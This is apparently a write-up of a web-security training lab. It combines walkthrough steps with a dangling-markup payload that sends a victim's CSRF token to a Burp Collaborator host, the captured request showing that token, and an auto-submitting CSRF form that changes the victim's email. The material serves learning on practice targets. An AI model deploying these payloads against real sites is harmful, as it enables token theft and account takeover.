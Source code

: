 						In Burp, go to the intercepted request and change the value of the email parameter to <code>hacker@evil-user.net</code>.
					</li>
					<li>
						Right-click on the request and, from the context menu, select "Engagement tools" and then "Generate CSRF PoC". The popup shows both the request and the CSRF HTML that is generated by it. In the request, replace the CSRF token with the one that you stole from the victim earlier.
					</li>
					<li>
						Click "Options" and make sure that the "Include auto-submit script" is activated.
					</li>
					<li>
						Click "Regenerate" to update the CSRF HTML so that it contains the stolen token, then click "Copy HTML" to save it to your clipboard.
					</li>
					<li>
						Drop the request and switch off the intercept feature.
					</li>
					<li>
						Go back to the exploit server and paste the CSRF HTML into the body. You can overwrite the script that we entered earlier.
					</li>
					<li>
						Click "Store" and "Deliver exploit to victim". The user's email will be changed to <code>hacker@evil-user.net</code>.
					</li>
				</ol>
            </div>
        </div>
exploit

```javascript
<script>if(window.name) {new Image().src='//u4z2r2pg5nkcbt98w5llhkjhy84ysn.burpcollaborator.net?'+encodeURIComponent(window.name);} else {location = 'https://0adc006a042d30abc0a25ca500e600e3.web-security-academy.net/my-account?email="><a href="https://exploit-0ad100ef04dc3071c0ed5c3d01bc005f.web-security-academy.net/exploit">Click me</a><base target='';}</script>
```

Collaborator Client

```http
GET /?%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20required%20type%3D%22hidden%22%20name%3D%22csrf%22%20value%3D%22HdrKksohxrdzRLl7g6E8qa2FM9Tf8oxn%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D HTTP/1.1
Host: u4z2r2pg5nkcbt98w5llhkjhy84ysn.burpcollaborator.net
```

CSRF POC

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0adc006a042d30abc0a25ca500e600e3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="HdrKksohxrdzRLl7g6E8qa2FM9Tf8oxn" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
